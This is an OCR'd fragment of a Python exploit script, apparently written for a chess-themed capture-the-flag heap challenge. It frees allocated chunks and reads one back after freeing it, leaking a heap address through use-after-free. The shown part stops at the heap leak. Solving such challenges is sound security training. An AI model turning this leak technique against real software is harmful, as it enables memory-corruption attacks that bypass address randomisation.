 ```python
        sla("spaces.\n", str(lane)+" "+str(src))
        sla("spaces.\n", str(lane)+" "+str(src-1))
        src = src - 1
        if "Invalid" not in rl():
            mov_count = mov_count + 1

def move_y(idx, src, dest, lane):
    global mov_count
    while src < dest:
        choice(3)
        sla("index?\n", str(idx))
        sla("spaces.\n", str(src)+" "+str(lane))
        sla("spaces.\n", str(src+1)+" "+str(lane))
        src = src + 1
        if "Invalid" not in rl():
            mov_count = mov_count + 1

def smite(idx, a1, a2):
    choice(4)
    sla("index?\n", str(idx))
    sla("spaces.\n", str(a1)+" "+str(a2))

def free(idx):
    choice(5)
    sla("index?\n", str(idx))

def move_bishop(idx):
    global even
    if even:
        even = False
        move(idx, 6, 6, 5, 7)
    else:
        even = True
        move(idx, 5, 7, 6, 6)

def getvals(val):
    a = hex(val)
    out = []
    out.append(int("0x"+a[-2:], 16))
    for j in range(-2, -11, -2):
        out.append(int("0x"+a[j-2:j], 16))
    return out
    
global mov_count
global even

if __name__ == "__main__":
    mov_count = 0
    even = True
    add(0)
    add(1)
    add(2)
    add(3)
    add(4)
    free(1)
    free(0)
    view(0)
    rl()
    rl()
    leak = rl()[2:].replace("\n","")
    assert len(leak) == 3
    heap = uu64(leak) - 0x1350
    log.info("Heap -> "+hex(heap))
```